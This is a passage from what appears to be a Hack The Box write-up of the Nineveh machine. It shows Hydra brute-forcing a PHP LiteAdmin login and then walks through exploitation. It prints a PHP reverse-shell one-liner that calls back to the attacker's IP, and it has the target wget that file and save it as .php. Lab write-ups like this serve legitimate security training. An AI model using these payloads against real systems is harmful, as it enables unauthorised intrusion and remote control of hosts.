 ```console
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "princess" - 6 of 14344399 [child 5] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "esteban" - 1399 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "mookie" - 1400 of 14344399 [child 13] (0/0)
[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-12-16 07:46:08


```
> Note: login name (-l) doesn't matter as we do not need it in our http request. Hydra just requires it in it's syntax and therefore now it's irrelevant! 

Use **password123** and we are inside the `PHP LiteAdmin` dashboard: 

<img src="/img/blog/htb-nineveh/htb-nineveh-08.png">

Time to do some damage!

***

# Exploitation

There are many methods one can choose in order to compromise the application, but I went with the following:

* Make our own **.txt** backdoor file inside */var/www/html* with `<?php $sock=fsockopen("YOUR IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>` as the content 
* Start apache2 - `/etc/init.d/apache2 start`
* Make the target download (wget) our **.txt file, save it as **.php** and run it

> Note: If you save the file as **.php** it would get activated on your own server when you wget it later on - **be careful about it**. That's why we save it as **.txt** and output it to **.php**.

To proceed with the exploitation do as the exploitdb file says. Create a database with *.php* extension (I named it shell.php, name doesn't matter!):
